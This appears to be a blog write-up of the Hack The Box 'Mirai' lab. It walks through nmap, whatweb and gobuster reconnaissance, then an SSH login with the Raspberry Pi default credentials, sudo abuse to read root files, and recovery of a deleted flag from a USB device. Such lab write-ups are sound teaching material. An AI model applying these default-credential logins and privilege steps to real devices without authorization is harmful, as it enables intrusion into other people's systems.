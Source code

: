 ```yaml
---
layout: single
title: Mirai - Hack The Box
excerpt: "Mirai demonstrates one of the fastest-growing attack vectors in modern times; improperly configured IoT devices. This attack vector is constantly on the rise as more and more IoT devices are being created and deployed around the globe, and is actively being exploited by a wide variety of botnets. Internal IoT devices are also being used for long-term persistence by malicious actors."
date: 2025-05-27
classes: wide
header:
  teaser: /img2/mirai.PNG
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Easy
tags:
  - Gaining SSH Access Using Default Raspberry Credentials
  - Abusing Sudo Group [Privilege Escalation]
  - Recovering Deleted root.txt File through a Connected External Device
---
```



## Reconnaissance

- Nmap

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.10.10.48
```

![](/img2/Pasted%20image%2020250527133528.png)

- Vulnerability and version scan

```bash
nmap -sCV -p22,53,80,1088,32400 -vvv 10.10.10.48
```

![](/img2/Pasted%20image%2020250527133811.png)

- Whatweb

```bash
whatweb http://10.10.10.48/
```

![](/img2/Pasted%20image%2020250527134820.png)

- Gobuster

```bash
gobuster dir -u http://10.10.10.48/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
```

![](/img2/Pasted%20image%2020250527143319.png)

![](/img2/Pasted%20image%2020250527143452.png)

## Exploitation

- Connect SSH with Raspberry default credentials

```bash
ssh pi@10.10.10.48
```

> raspberry

## Post-exploitation

- Check sudoers

```bash
sudo -l
```

![](/img2/Pasted%20image%2020250527145317.png)

- Search root flag

```bash
find / -name root.txt
```

```bash
cat /root/root.txt
```

![](/img2/Pasted%20image%2020250527145415.png)

- List partitions

```bash
lsblk
```

![](/img2/Pasted%20image%2020250527145520.png)

- List content of usb

```bash
cat /media/usbstick/damnit.txt
```

![](/img2/Pasted%20image%2020250527145645.png)

- View deleted content

```bash
strings /dev/sdb
```

![](/img2/Pasted%20image%2020250527145754.png)

![](/img2/Pasted%20image%2020250527145120.png)
